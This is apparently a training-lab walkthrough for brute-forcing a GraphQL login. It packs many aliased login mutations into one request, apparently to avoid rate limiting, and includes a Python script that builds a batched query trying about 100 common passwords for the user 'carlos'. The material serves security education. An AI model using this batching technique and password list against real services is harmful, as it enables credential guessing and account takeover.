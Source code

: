 Analyse the login requests and note that it uses a mutation to send a login request with a username and password. Craft a query that contains multiple login mutations in one message:

```json
mutation {
        attack0:login(input:{password: "123456", username: "carlos"}) {
              token
              success
          }
          attack1:login(input:{password: "password", username: "carlos"}) {
              token
              success
          }
          attack2:login(input:{password: "12345678", username: "carlos"}) {
              token
              success
          }
    }
```

To create all 99 logins faster, create a simple Python script:

```python
passwords = """123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,
monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,
000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,
sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,
jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,
amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,
mobilemail,mom,monitor,monitoring,montana,moon,moscow""".replace("\n", "").split(',')

graphql_queries = []

# Generate the GraphQL query aliases
for index, password in enumerate(passwords):
    query = f"""
    attack{index}: login(input: {{password: "{password}", username: "carlos"}}) {{
        token
        success
    }}
    """
    graphql_queries.append(query)

# Join all the queries into one string with newlines separating each query
final_query = "\n".join(graphql_queries)

# Output the generated GraphQL query string
print(final_query)
```
